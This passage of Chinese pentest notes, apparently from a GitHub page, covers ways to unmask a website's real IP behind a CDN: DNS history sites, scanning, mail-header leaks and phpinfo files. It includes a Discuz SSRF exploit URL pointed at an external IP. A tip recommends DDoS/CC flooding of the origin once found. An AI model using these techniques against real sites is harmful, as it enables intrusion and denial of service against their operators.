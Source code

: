 ```
查看 IP 与 域名绑定的历史记录，可能会存在使用 CDN 前的记录，相关查询网站有：
https://dnsdb.io/zh-cn/
https://x.threatbook.cn/
http://toolbar.netcraft.com/site_report?url=
http://viewdns.info/
http://ip138.com
```

## xcdn

```
https://github.com/3xp10it/xcdn
```

## Zmap扫描全网

```
操作方法：http://bobao.360.cn/learning/detail/211.html

Tips：找到真实ip，绑定host ，是否可以打开目标网站，就是真实IP，对真实IP进行入侵测试，DDOS流量攻击，CC等等，实现无视CDN防御。
```

## 如何处理CDN，获取真实IP

1. 通过一些没有设置cdn的子域名站点进行c段扫描，可能与其他站点属于同一个c段
2. 历史DNS查询，很老的在未使用cdn时候的dns解析记录可能会暴露该信息
3. 找国外的比较偏僻的DNS解析服务器进行DNS查询，因为大部分CDN提供商只针对国内市场，而对国外市场几乎是不做CDN，所以有很大的几率会直接解析到真实IP

## SMTP发送邮件泄露源站ip

最简单，常见的方式。大部分公用SMTP服务在发信时邮件头会带上发件者ip，这样导致cdn直接失去对攻击者的防护意义。

disucz论坛，我们可以通过注册账号 或者找回密码等 任何可以让网站发送一个邮件给我们的方式 来获取源ip，在邮箱中查看原文。

即可获得web服务器的源ip。 具体获得源ip后怎么利用在文末一起总结
解决方案:使用邮件头不显示ip的smtp服务，或者将邮件服务更改为使用WEBAPI发送邮件即可。

## 泄露IP的程序

扫描目标web目录 获取一个phpinfo 探针类文件 ，基本上都存有服务器真实ip

## SSRF

乌云峰会的时候 猪猪侠曾讲过”SSRF是只影响有钱人的漏洞” 但在渗透测试的时候 我们的目标并不是个个都是有钱人 有BAT他们那样大的内网
我们只是简单的想取一个源站ip，这时候SSRF也能帮我们一把
以discuz举例 (DZ官方似乎并不把SSRF当漏洞,所以该方案可行度很高)
我们这里用春秋论坛做例子，discuz ssrf的exp为:/forum.php?mod=ajax&action=dkwnremkteimg&message=[img=1,1]<http://183.60.109.99:3319/aq9w.jpg[/lmg]>
直接访问ip可以确定

# 反向地址解析
